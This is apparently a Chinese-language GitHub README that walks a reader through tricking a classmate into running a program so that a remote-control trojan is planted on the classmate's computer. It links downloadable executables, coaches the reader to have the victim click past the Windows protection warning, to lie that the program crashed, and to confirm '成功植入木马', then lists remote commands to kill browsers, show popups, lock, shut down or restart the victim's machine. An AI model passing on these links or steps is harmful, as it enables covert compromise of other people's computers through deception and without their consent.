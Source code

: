 # 让同伴打开以下网站：

[https://b.helloosme.eu.org/](https://b.helloosme.eu.org/)

点击“激活方法”，你将作为同伴的同伴，下载两个程序：

[https://osfiles.pages.dev/register.exe](https://osfiles.pages.dev/register.exe)

[https://osfiles.pages.dev/showmsg.exe](https://osfiles.pages.dev/showmsg.exe)

打开`此电脑`，然后打开`C:\`，然后打开`Users`文件夹或`用户`文件夹，然后打开`Lenovo`文件夹，然后打开`下载`文件夹或`Downloads`文件夹;

打开`register.exe`然后点击最小化图标:  
![](https://questionimg.3d66.com//answers/question/20210815/4717e3433d32f4dda61aa8dba7c61f3d.gif)

记住一定要比同伴的`ob.exe`先打开，同伴打开`ob.exe`后叫其稍等，等出现以下弹窗

 <h2>Q:出现"windows已保护你的电脑"怎么办？</h2>
A:别担心，这是因为程序是自己写的，没有人家大公司的认证证书。<br>
点击"更多信息"，再点击"仍要运行"即可。

解决后等一会，然后对同伴谎称程序崩溃（程序是隐藏运行的，不会出现弹窗），要让我重新开发，等同伴看视频/做题时，重新调出那个register.exe窗口（屏幕最底下那个黑框框里有个register.exe程序图标，点一下）

当程序窗口内出现`目标连接成功`后即为成功植入木马。

# 很好，你做到了！
同学电脑成功被你植入了木马，现在在那个register.exe窗口里输入以下命令玩玩同学吧（

以下命令将远程执行在同学电脑上！！！

关闭chrome浏览器(谷歌浏览器)【推荐执行这个命令】
```
taskkill -f -im chrome.exe
```
弹窗
```
msg [消息]
```
锁屏
```
lock
```
关机
```
shutdown -s -t [时间，单位为秒，至少为60]
```
重启
```
shutdown -r -t [时间，单位为秒，至少为60]
```
取消关机/重启:
```
shutdown -a
```
关闭edge浏览器
```
taskkill -f -im msedge.exe
```
